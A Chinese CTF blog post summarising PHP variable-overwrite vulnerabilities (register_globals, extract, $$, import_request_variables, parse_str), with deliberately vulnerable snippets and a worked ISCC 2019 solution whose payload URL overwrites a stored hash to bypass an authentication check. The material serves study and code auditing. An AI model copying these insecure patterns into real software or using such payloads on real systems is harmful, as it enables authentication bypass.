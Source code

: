 ```yaml
---
title: "PHP变量覆盖总结"
date: 2019-05-09T13:09:07+08:00
draft: false
tags: ['ctf','php']
categories: ['代码审计']
---
```


最近做ctf遇到了很多次变量覆盖的问题，总结一下

<!--more-->

## register_global

全局变量注册，本特性已自 PHP 5.3.0 起**废弃**并将自 PHP 5.4.0 起**移除**。

当在php.ini开启register_globals= On时，代码中的参数会被用户提交的参数覆盖掉。

看例子

```php
<?php
echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";
if ($auth) {
    echo "覆盖！";
}else{
    echo "没有覆盖";
}
```

当访问`http://127.0.0.1/1.php`时输出`没有覆盖`

但是当请求`http://127.0.0.1/1.php?auth=1`时会覆盖掉`$auth`输出`覆盖`。
## extract()
从数组中将变量导入到当前的符号表
直接看代码
```php
<?php
$auth=false;
extract($_GET);

if ($auth){
    echo "over";
}
```
同样请求`http://127.0.0.1/1.php?auth=1`时会覆盖掉`$auth`输出`over`。
## `$$`
`$$`符号在php中叫做`可变变量`，可以使变量名动态设置。举个例子

```php
<?php
$a='hello';
$$a='world';
echo "$a ${$a}";
echo "$a $hello";
?>
```
可以看到在这里`${$a}`等同于`$hello`，接着我们再来看怎么来进行变量覆盖

```php
$auth=0;
foreach ($_GET as $key => $value) {
    $$key=$value;
}
echo $auth;
```
在第二行中遍历了全局变量`$_GET`，第三行将key当作变量名，把value赋值。
那么我们传入`http://127.0.0.1/1.php?auth=1`时会将`$auth`的值覆盖为1

## import_request_variables
将 GET／POST／Cookie 变量导入到全局作用域中，如果你禁止了 register_globals，但又想用到一些全局变量，那么此函数就很有用。那么和register_globals存在相同的变量覆盖问题。
```php
$auth = '0';
import_request_variables('G');
 
if($auth == 1){
  echo "over!";
}
```
同样传入`http://127.0.0.1/1.php?auth=1`时会将`$auth`的值覆盖为1，输出`over!`
## parse_str()
将字符串解析成多个变量
```php
$a='aa';
$str = "a=test";
parse_str($str);
echo ${a};
```
可以看出来将$str解析为`$a='test'`，与parse_str()类似的函数还有mb_parse_str()，不在赘述。

我们来看一道ctf题，在我[上一篇文章ISCC的web4](https://y4er.com/post/iscc-2019/#web4)中也提到了.

源代码
```php
<?php 
error_reporting(0); 
include("flag.php"); 
$hashed_key = 'ddbafb4eb89e218701472d3f6c087fdf7119dfdd560f9d1fcbe7482b0feea05a'; 
$parsed = parse_url($_SERVER['REQUEST_URI']); 
if(isset($parsed["query"])){ 
    $query = $parsed["query"]; 
    $parsed_query = parse_str($query); 
    if($parsed_query!=NULL){ 
        $action = $parsed_query['action']; 
    } 

    if($action==="auth"){ 
        $key = $_GET["key"]; 
        $hashed_input = hash('sha256', $key); 
        if($hashed_input!==$hashed_key){ 
            die("no"); 
        } 

        echo $flag; 
    } 
}else{ 
    show_source(__FILE__); 
}?>
```
在第五行将请求的URI通过`parse_url()`解析后赋值给`$parsed`变量。

在第八行将我们提交的`query`参数使用`parse_str`解析，这时就产生了变量覆盖的问题，我们可以通过query提交参数去覆盖变量。

接着往下看`$hashed_input!==$hashed_key`成立输出flag，此时`$hashed_input`我们可控，那么我们可以覆盖掉`$hashed_key`来使条件成立

`$hashed_input = hash('sha256', $key);`是sha256加密，那么我们可以传入`key=a`，此时`$hashed_input`等于`ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb`。

然后覆盖`$hashed_key`，传入`query=&hashed_key=ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb`覆盖掉。

这时payload为
```http
http://39.100.83.188:8066/?query=&hashed_key=ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb&action=auth&key=a
```

拿到flag

## 总结
代码审计中变量覆盖还算好找，希望自己细心，也希望这篇文章对大家有用处。